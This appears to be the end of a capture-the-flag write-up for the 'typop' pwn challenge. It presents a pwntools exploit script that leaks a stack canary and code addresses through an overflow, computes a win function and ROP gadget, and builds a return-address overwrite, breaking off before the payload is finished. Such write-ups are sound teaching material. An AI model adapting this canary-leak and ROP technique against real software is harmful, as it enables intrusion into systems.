 Complete!  Here is the final exploit.

#### exploit.py
```python
from pwn import *

u = make_unpacker(64, endian='little', sign='unsigned')
binary = context.binary = ELF("./attachments/chall")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('typop.chal.idek.team', 1337)

payload =  b"y"
with open("payload", "wb") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"A" * 11
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
tmp = buf.split(b"AAAAAAAAAAA")[1]
tmp = tmp.split(b"\nAww")[0]
stack_canary = u(b"\x00" + tmp[:7])
stack_addr = u(tmp[7:].ljust(8, b"\x00"))
payload = b""
payload += b"B" * 10
payload += p64(stack_canary)
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

# Second loop
p.recvuntil("Do you want to complete a survey?\n")
payload =  b"y"
with open("payload", "ab") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"B" * 26
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
main_addr = buf.split(b"BBBBBBBBBBBBBBBBBBBBBBBBBB")[1].split(b"\nAww")[0]
# 0x12ac
win_addr = u(main_addr.ljust(8, b"\x00")) - 0x19b
# 0x1233    pop rbp
rop_addr = u(main_addr.ljust(8, b"\x00")) - 0x214
payload = b"A" * 10
payload += p64(stack_canary)

payload += b"B" * 8
payload += p64(rop_addr)

```